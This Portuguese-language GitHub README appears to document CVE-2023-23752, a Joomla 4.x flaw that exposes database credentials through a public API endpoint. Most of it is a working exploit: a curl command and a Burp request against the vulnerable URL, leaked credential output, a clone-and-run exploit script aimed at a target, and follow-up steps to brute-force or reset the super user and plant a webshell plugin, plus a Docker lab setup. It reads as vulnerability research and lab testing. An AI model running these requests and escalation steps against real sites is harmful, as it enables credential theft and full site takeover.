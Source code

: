 # [CVE-2023-23752](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23752) Joomla! | Acesso impróprio de arquivos não autorizados

**Versão 4.0.0 a 4.2.7**

**Score [5.3 MEDIUM](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)**

Para mais informações sobre a correção da falha:
https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html

Exemplo:


root@server:/# curl http://localhost:8080/api/index.php/v1/config/application?public=true

{"links":{"self":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/applicationpublic=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"Este site est\u00e1 fora do ar para manuten\u00e7\u00e3o.<br>Por favor, verifique novamente em breve.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"CVEpedia","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"joomladb","id":224}},{"type":"application","id":"224","attributes":**{"user":"root","id":224}}**,{"type":"application","id":"224","attributes":**{"password":"123pass123"**,"id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"f4jpq_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}

## A Falha

A falha permite o acesso impróprio ao endpoint específico exibindo as credências do banco de dados em texto claro.

A URL vulnerável:

```http://<IP_ALVO>:8080/api/index.php/v1/config/application?public=true```

#### Falha pelo Burp
```
GET /api/index.php/v1/config/application?public=true HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### Falha via Curl

```
$ curl http://localhost:8080/api/index.php/v1/config/application?public=true
```

#### Exploit

```
git clone https://github.com/luisfelipe146/CVEpedia/tree/main/CVE-2023-23752
```

```
cd CVE-2023-23752
chmod +x CVE-2023-23752.sh
./CVE-2023-23752.sh localhost 8080
```

É possível acessar o banco de dados MYSQL com as credências obitadas e coletar a informação de qual o nome do super usuário e/ou alterar a senha.

##### Escalação de Privilégios

Através de Brute Force no Super Usuário ou trocando a senha pelo MYSql
https://vulncheck.com/blog/joomla-for-rce

Instalando um WebShell via plugins

https://github.com/p0dalirius/Joomla-webshell-plugin

Dicas

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

## Criando um Ambiente de testes via Docker 

Utilizando arquivo **yml**

```
version: '3.1'

services:
  joomla:
    image: joomla:4.2.7-php8.1-apache
    restart: always
    links:
      - joomladb:mysql
    ports:
      - 8080:80
    environment:
      JOOMLA_DB_HOST: joomladb
      JOOMLA_DB_PASSWORD: 123pass123 

  joomladb:
    image: mysql:5.6
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: 123pass123
```




